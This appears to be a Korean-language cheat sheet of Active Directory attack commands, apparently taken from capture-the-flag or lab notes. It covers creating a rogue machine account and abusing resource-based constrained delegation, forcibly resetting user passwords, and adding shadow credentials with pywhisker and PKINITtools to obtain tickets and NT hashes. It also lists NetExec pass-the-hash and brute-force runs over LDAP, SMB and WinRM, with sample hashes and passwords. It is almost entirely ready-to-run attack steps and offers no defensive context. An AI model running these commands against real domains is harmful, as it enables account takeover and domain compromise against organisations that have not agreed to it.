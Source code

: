 ### RBCD(Resource Based Constrained Delegation) 가능성 확인
```
Get-ADObject -Identity ((Get-ADDomain).DistinguishedName) -Properties ms-DS-MachineAccountQuota
```

### 컴퓨터 새로 만들기
```
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

### RBCD
```
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```

### 바이트 데이터를 문자로 변환
```
$RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
$Descriptor
$Descriptor.DiscretionaryAcl
```

### ForceChangePassword
```
# ForceChangePassword가 있으면 비밀번호 변경하기
net user michael ruang123 /domain

# 윈도우 비밀번호 정책에 맞게 변경
setuserinfo2 audit2020 23 'Ruang123!@#'
```

### Generic All
```
python3 /opt/pywhisker/pywhisker/pywhisker.py -d "pinocure.com" -u "management_svc" -H 'a091c1832bcdd4677c28b5a6a1295584' --target "ca_operator" --action "add"
python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx dJS58bxs.pfx pinocure.com/ca_operator -pfx-pass 'fe3mCmk6yzKuLsqx6a5D' ca_operator.ccache
python3 /opt/PKINITtools/getnthash.py -key 9938ac314bbbe01d8856be69315a8af5c62a9f7057b431a0b0d249be5f426c89 pinocure.com/ca_operator
```

### nxc
```
nxc ldap pinocure.com -u management_svc -H a091c1832bcdd4677c28b5a6a1295584 -M adcs
nxc ldap 10.10.10.192 -u 'support' -p $(cat support_passwd )
nxc ldap 10.10.10.192 -u support -p $(cat support_passwd) --bloodhound --dns-server 10.10.10.192 --collection All
```
```
# brute force
nxc smb 10.10.10.192 -u support -p $(cat support_passwd)
nxc smb 10.10.10.192 -u audit2020 -p $(cat audit2020_passwd)
nxc winrm 10.10.10.192 -u audit2020 -p $(cat audit2020_passwd)
nxc smb 10.10.10.192 -u users -H nt_hashes
nxc winrm 10.10.10.192 -u svc_backup -H svc_backup_hash
```
